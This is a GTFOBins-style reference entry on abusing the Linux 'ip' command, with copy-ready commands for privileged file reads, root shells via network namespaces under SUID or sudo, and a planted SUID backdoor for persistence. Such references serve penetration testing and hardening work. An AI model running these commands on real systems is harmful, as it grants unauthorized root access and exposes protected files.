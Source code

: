 # GTFOBin: ip

The read file content is corrupted by error prints.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
ip -force -batch "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ip) .

LFILE=file_to_read
./ip -force -batch "$LFILE"
```

This only works for Linux with CONFIG_NET_NS=y.

```
sudo install -m =xs $(which ip) .

./ip netns add foo
./ip netns exec foo /bin/sh -p
./ip netns delete foo
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo ip -force -batch "$LFILE"
```

This only works for Linux with CONFIG_NET_NS=y.

```
sudo ip netns add foo
sudo ip netns exec foo /bin/sh
sudo ip netns delete foo
```

This only works for Linux with CONFIG_NET_NS=y. This version also grants network access.

```
sudo ip netns add foo
sudo ip netns exec foo /bin/ln -s /proc/1/ns/net /var/run/netns/bar
sudo ip netns exec bar /bin/sh
sudo ip netns delete foo
sudo ip netns delete bar
```